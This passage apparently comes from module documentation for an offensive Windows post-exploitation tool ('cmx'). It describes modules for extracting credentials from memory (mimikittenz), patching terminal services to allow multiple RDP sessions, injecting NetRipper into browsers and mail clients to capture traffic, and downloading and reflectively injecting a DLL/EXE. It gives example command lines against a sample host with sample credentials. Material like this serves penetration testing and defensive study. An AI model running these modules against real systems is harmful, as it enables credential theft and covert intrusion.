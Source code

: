 **Options:**
```

```
**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M mimikittenz
```
**Expected Results:**
```

~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## multirdp                  
Patches terminal services in memory to allow multiple RDP users

Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | true 

**Options:**
```

```
**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M multirdp
```
**Expected Results:**
```

~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## netripper                 
Injects NetRipper in memory using PowerShell  
        Note: NetRipper doesn't support injecting into x64 processes yet, which very much limits its use case  

Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | true 

**Options:**
```
*   PROCESS   Process to hook, only x86 processes are supported by NetRipper currently 
                (Choices: firefox, chrome, putty, winscp, outlook, lync) 
```
*Fails for chrome currently*

**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M netripper -o PROCESS=firefox
```
**Expected Results:**
```

~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## pe_inject                 
Downloads the specified DLL/EXE and injects it into memory using PowerSploit's Invoke-ReflectivePEInjection.ps1 script  
